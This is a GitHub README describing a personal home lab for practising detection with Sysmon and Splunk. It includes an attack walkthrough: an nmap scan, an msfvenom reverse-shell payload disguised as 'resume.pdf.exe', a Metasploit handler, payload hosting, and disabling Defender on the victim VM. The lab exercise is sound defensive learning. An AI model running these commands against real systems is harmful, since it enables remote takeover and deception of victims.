 # 🧪 Building My First Home Lab (Cybersecurity Edition)

A simple and effective home lab setup for practicing cybersecurity — including safe malware analysis, telemetry collection, and attack simulation using **VirtualBox**, **Kali Linux**, **Windows 11**, **Sysmon**, and **Splunk**.

🔗 [Read the full blog post on Medium](https://medium.com/@vinuvarshith95/building-my-first-home-lab-b51d83145691)

## 🎯 Objective

To create a secure, isolated virtual environment for:

- Practicing blue team techniques  
- Understanding endpoint telemetry  
- Performing safe malware analysis  
- Simulating cyberattacks and visualizing them with Splunk  

## 🛠 Tools Used

| Tool/OS            | Purpose                                     |
|--------------------|---------------------------------------------|
| VirtualBox         | Virtualization platform                     |
| Kali Linux         | Attacker machine (penetration testing)      |
| Windows 11 Home    | Victim machine (target for simulation)      |
| Sysmon             | Collecting rich system telemetry            |
| Splunk Enterprise  | Log collection, analysis, and detection     |
| Metasploit         | Simulating attacks (reverse shell)          |
| msfvenom           | Generating custom payloads                  |
| Python HTTP Server | Hosting malicious payloads                  |

## 🧠 Skills Learned

- Creating attacker/victim VMs  
- Safe malware execution and isolation  
- Sysmon configuration and log collection  
- Using Splunk for real-time telemetry analysis  
- Network configuration (NAT vs Internal)  
- Hands-on red teaming and threat simulation  

## 🪜 Setup Steps

### 1. Virtual Machine Setup

- Installed VirtualBox  
- Created two VMs:  
  - **Kali Linux (Attacker):** 4GB RAM, 2 CPUs, 25GB disk  
  - **Windows 11 (Victim):** 4GB RAM, 2 CPUs, 50GB disk  

![image](https://github.com/user-attachments/assets/8e521224-81c0-465c-a53f-21d3d9497bd7)


### 2. Install Sysmon on Windows

- Downloaded `Sysmon64.exe` and `sysmonconfig.xml` (from Olaf Hartong’s GitHub)  
- Opened PowerShell as Administrator and ran:
```.\Sysmon64.exe -accepteula -i sysmonconfig.xml```
- Verified installation in **Event Viewer** under:  
`Applications and Services Logs > Microsoft > Windows > Sysmon > Operational`

![image](https://github.com/user-attachments/assets/a71cf721-8560-46db-8ad6-2032dcf9015e)


### 3. Install Splunk

- Downloaded Splunk Enterprise trial for Windows  
- Installed and accessed Splunk at: `http://localhost:8000`
- Clicked **Add Data → Monitor → Local Event Logs**  
- Selected log sources: **Security**, **System**, **Application**

![image](https://github.com/user-attachments/assets/77efbae8-c6f0-4e23-ab87-b4525d5a2d20)


### 4. Virtual Network Configuration

#### Scenario 1: Tool Testing  
- Used **default NAT** mode  

#### Scenario 2: Malware Analysis  
- Switched to **Internal Network** for both VMs  
- Assigned static IPs:  
- Windows: `192.168.20.10`  
- Kali Linux: `192.168.20.11`  
- Verified connectivity using `ping` between VMs  

### 5. Simulated Attack

**From Kali Linux:**

- Port scanning the victim: `nmap -A 192.168.20.10`
  ![image](https://github.com/user-attachments/assets/27ea1cb9-4300-4812-b50d-625266d05d11)
- Creating a reverse shell payload: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o resume.pdf.exe`
- Setting up a Metasploit listener:
```
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 4444
exploit
```
- Hosting the payload via Python:  `python3 -m http.server 9999`

**From Windows:**

- Disabled Defender temporarily  
- Accessed Kali’s HTTP server in the browser:  
`http://192.168.20.11:9999`  
- Downloaded and executed the payload: `resume.pdf.exe`  
- Verified the reverse shell back to Kali

  ![image](https://github.com/user-attachments/assets/0d75a4ec-baa5-4ed3-9aa1-d8ca549c13b4)


### 6. Log Analysis in Splunk

- Edited the file:  
`C:\Program Files\Splunk\etc\system\local\inputs.conf`  
to include Sysmon logs  
- Restarted the **Splunkd** service via `services.msc`  
- Created a new Splunk index: `endpoint`  
- Installed the **Splunk Add-on for Sysmon**  
- Ran queries like:
```
index=endpoint 192.168.20.11
index=endpoint resume.pdf.exe
index=endpoint EventCode=29
```

![image](https://github.com/user-attachments/assets/75baa6b2-3a47-4af6-a154-776e6d8fca50)


## 📊 Outcome

- Successfully captured and visualized simulated attacks  
- Validated the power of Sysmon + Splunk for endpoint detection  
- Built a reusable lab for continuous learning and testing  











